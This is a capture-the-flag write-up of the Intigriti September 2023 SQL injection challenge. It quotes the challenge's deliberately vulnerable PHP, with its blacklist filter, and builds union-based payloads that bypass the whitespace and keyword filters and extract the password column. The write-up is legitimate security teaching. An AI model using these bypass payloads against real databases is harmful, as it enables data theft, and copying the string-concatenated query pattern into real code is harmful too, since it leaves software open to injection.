







Hi all, first time doing a writeup here 😉. This will be the [Intigriti September 2023 challenge](https://challenge-0923.intigriti.io/) created by @sgrum0x. I wrote this writeup not just for experienced players but also for newbies. In short, this challenge can be solved by using parentheses for whitespaces filter and get a column without using it's name.



## Statement
Featuring this month's challenge will be an SQL injection challenge. At first glance, it is a table containing ID, username, email of some users.


There is also a Show Source button. Upon clicking it, we can have a look at the source code of the challenge.

```php {linenos=inline}
...
$max = 10;

if (isset($_GET['max']) && !is_array($_GET['max']) && $_GET['max']>0) {
    $max = $_GET['max'];
    $words  = ["'","\"",";","`"," ","a","b","h","k","p","v","x","or","if","case","in","between","join","json","set","=","|","&","%","+","-","<",">","#","/","\r","\n","\t","\v","\f"]; // list of characters to check
    foreach ($words as $w) {
        if (preg_match("#".preg_quote($w)."#i", $max)) {
            exit("H4ckerzzzz");
        } //no weird chars
    }       
}

try{
  //seen in production
  $stmt = $pdo->prepare("SELECT id, name, email FROM users WHERE id<=$max");
  $stmt->execute();
  $results = $stmt->fetchAll();
}
catch(\PDOException $e){
  exit("ERROR: BROKEN QUERY");
}
    /* FYI
    CREATE TABLE users (
        id INT AUTO_INCREMENT PRIMARY KEY,
        name VARCHAR(255) NOT NULL,
        email VARCHAR(255) UNIQUE NOT NULL,
        password VARCHAR(255) NOT NULL
    );
    */
?>
...
<td><?= htmlspecialchars(strpos($row['id'],"INTIGRITI")===false?$row['id']:"REDACTED"); ?></td> 
<td><?= htmlspecialchars(strpos($row['name'],"INTIGRITI")===false?$row['name']:"REDACTED"); ?></td>
<td><?= htmlspecialchars(strpos($row['email'],"INTIGRITI")===false?$row['email']:"REDACTED"); ?></td> 
...
```

Upon reading the source code, I was able to guess that the flag will be in the column `password` which we need to leak it somehow using `SQL Injection``. So where is the injection point ? What are the problems that we need to encounter ? Let's dive deeper.

## Overview

### First glance

Upon reviewing the source code, we can easily find the SQL Injection endpoint.

```php {linenos=inline}
$max = 10;
...
$max = $_GET['max'];
...
$stmt = $pdo->prepare("SELECT id, name, email FROM users WHERE id<=$max");
```

But it wouldn't have been a challenge if it was this easy right 🥲?
The variable `$max` must go through a god d@mn filter in order to be passed to the query.

### Filter

Let's take a look at the filter:

```php {linenos=inline}
if (isset($_GET['max']) && !is_array($_GET['max']) && $_GET['max']>0) {
    $max = $_GET['max'];
    $words  = ["'","\"",";","`"," ","a","b","h","k","p","v","x","or","if","case","in","between","join","json","set","=","|","&","%","+","-","<",">","#","/","\r","\n","\t","\v","\f"]; // list of characters to check
    foreach ($words as $w) {
        if (preg_match("#".preg_quote($w)."#i", $max)) {
            exit("H4ckerzzzz");
        } //no weird chars
    }       
}
```

In short there are 2 processes the filter perform:
- First it check the query `$_GET['max']` if it an array and greater than 0.
- If it satisfies the condition, it assigns `$max` with the query `$_GET['max']`, and then it performs a blacklist case insensitive check.

## Filter bypass

### Number check

First up, in order to get through the if statement, the max must greater than 0. This is easy as stated in **PHP Documentation**.

So we only need a **number > 0** at the **first character** of the payload, we're good to move on.

### No whitespaces

Any payloads that contain white space or newline characters are filtered.

Comments for whitespaces will fail as it blocks character `/`.

There are a few payloads with alternative characters, unicodes that I have tried and failed like: `%a0, %09, %0a, ...`

There is still other ways.

Taken this from [Hacktricks](https://book.hacktricks.xyz/pentesting-web/sql-injection#no-spaces-bypass), we may already find the payload we need:
`?max=(1)and(1)=(1)`.

Nice👌.

However if you apply this right a way it would not work as it requires a **leading numeric character** in the payload. We can use arithmetic operators to utilize this.

Operator `*` multiply is not filtered. `?max=1*(2)and(1)=(1)`

### Desired characters are blocked

We can already construct a payload for **Union based** SQL Injection.

The payload for it maybe: `1 union select 1,2,password from users`

Bad news: `"password"` has characters "a" which is filtered.

Good news: [Hacktricks](https://book.hacktricks.xyz/pentesting-web/sql-injection#bypass-column-names-restriction) also offers us another way around.

```sql
-- This is an example with 3 columns that will extract the column number 3
-1 UNION SELECT 0, 0, 0, F.3 FROM (SELECT 1, 2, 3 UNION SELECT * FROM demo)F;
```

## Constructing payload

### Our union select

Let's start off with making our union select, provided that there are no filters applied.

It would be: 
```sql
1*2 UNION SELECT 1, 2, password FROM users
```

### Without using column name

Column `"password"` is the fourth column of the table users. So the payload from previous section would be:
```sql
1*2 UNION SELECT 1, 2, F.4 FROM (SELECT 1, 2, 3, 4 UNION SELECT * FROM users)F
-- Extracting fourth column with a table with 4 columns
```

### Combine with no spaces using parentheses

This is a tedious and annoying part to explain so I just leave it right here for you to think and try:

```sql
1*(2)union(SELECT(1),(2),((F.4))from(SELECT(1),(2),(3),(4)union(SELECT*from(users)))F)
```

### Try it out



The payload seems to work pretty well, but the flag should be there right ? Unfortunately, **no**.

The problem is right here:
```php {linenos=inline}
<td><?= htmlspecialchars(strpos($row['id'],"INTIGRITI")===false?$row['id']:"REDACTED"); ?></td> 
<td><?= htmlspecialchars(strpos($row['name'],"INTIGRITI")===false?$row['name']:"REDACTED"); ?></td>
<td><?= htmlspecialchars(strpos($row['email'],"INTIGRITI")===false?$row['email']:"REDACTED"); ?></td> 
```

If our result contains `"INTIGRITI"` (which is the flag) it will return `"REDACTED"`. 🛐

### Final touch

We need to find a function, [a string function](https://dev.mysql.com/doc/refman/8.0/en/string-functions.html) to be precised, that can make the string contain the word `"INTIGRITI"` no more.

A few comes in mind like: *SUBSTR, REVERSE, FORMAT, ...* but they are all filtered this way or another.

And there's *MID* instead of *SUBSTR* ... Wow. Just wow. So in order to not return the result containing `"INTIGRITI"`, we can use `MID(str,2)` which skips the first character.

*One more thing:* You may use *LOWER* and it still got through and the flag is still correct in this challenge.

## Put it all together

**OUR** final payload after using *MID* will be:
```sql
1*(2)union(SELECT(1),(2),((MID(F.4,2)))from(SELECT(1),(2),(3),(4)union(SELECT*from(users)))F)
```




## Conclussion

Overall, the challenge is quite interesting from my perspective. Upon first glance, the blacklist maybe overwhelmed for those who are not familiar with solving CTF challenges. However with a little bit of searching and trying, failing in the process is a must, the challenge may seem not so tough after all.

Thanks for reading the writeup and have a nice day.


P/S: There is a similar challenge on Root-me, check [it](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Filter-bypass) out